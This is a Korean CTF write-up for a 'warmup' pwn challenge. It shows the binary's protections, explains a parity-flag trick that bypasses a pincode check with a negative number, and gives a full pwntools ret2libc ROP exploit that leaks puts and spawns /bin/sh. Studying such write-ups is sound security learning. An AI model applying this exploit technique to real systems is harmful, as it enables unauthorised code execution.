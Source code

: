 

### **warmup**
- Arch : amd64-64-little
- RELRO : <span style="color: #ffd33d">Partial RELRO</span>
- Stack : <span style="color: red">No Canary found</span>
- NX : <span style="color: #008000">NX enabled</span>
- PIE : <span style="color: red">No PIE (0x400000)</span>
```c
int __cdecl check1()
{
  puts("Enter the pincode: ");
  __isoc99_scanf("%lu");
  return 0;
}
```
check1 함수의 수행 결과가 참이 되게 하면, puts의 libc 주소를 주면서 BOF가 발생해 ROP를 할 수 있다.

```
.text:00000000004011DF                 movsd   xmm0, [rbp+input]
.text:00000000004011E4                 movsd   xmm1, [rbp+input]
.text:00000000004011E9                 ucomisd xmm0, xmm1
.text:00000000004011ED                 setp    al
.text:00000000004011F0                 mov     edx, 1
.text:00000000004011F5                 ucomisd xmm0, xmm1
.text:00000000004011F9                 cmovnz  eax, edx
.text:00000000004011FC                 movzx   eax, al
.text:00000000004011FF                 leave
.text:0000000000401200                 retn
```

이게 디컴파일된 코드만 보면 불가능해 보이지만, 어셈블리 코드로 살펴보면, `setp al`이 al 레지스터에 Parity bit(PF) 값이 참이면 al 레지스터도 세팅된다. 이후에, al 레지스터의 값이 그대로 반환되는 것을 확인할 수 있다.

따라서, ___isoc99_scanf 함수의 수행 결과로 EFLAGS 레지스터에 PF만 세팅될 수 있으면, 참 값을 반환할 수 있다.

PF는 연산 수행 결과로, 1로 세팅된 비트의 수가 짝수일 때 1로 세팅되고, 그렇지 않으면 0이라고 하는데... scanf 루틴에 따라 이 값이 어떻게 달라지는지는 잘 모른다. 나중에 EFLAGS 관련해서 정리 좀 해야겠다 ㅠㅠ.

그러나, 음수를 입력하니까 PF가 세팅되어, 조건문을 우회할 수 있음을 알게 되었고, 이를 바탕으로 익스플로잇 코드를 작성하였다.

```python
from pwn import *

p = process('./warmup')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so', False)

p.sendlineafter(b": \n", str(-1).encode())
p.recvuntil(b"0x")
libc.address = int(p.recvline()[:-1], 16) - libc.symbols['puts']
success("libc base @ " +hex(libc.address))

payload = b'A'*0x38
payload += p64(0x401255) # pop rdi; ret
payload += p64(list(libc.search(b"/bin/sh"))[0])
payload += p64(0x401256) # ret
payload += p64(libc.symbols['system'])
p.send(payload)

p.interactive()
```
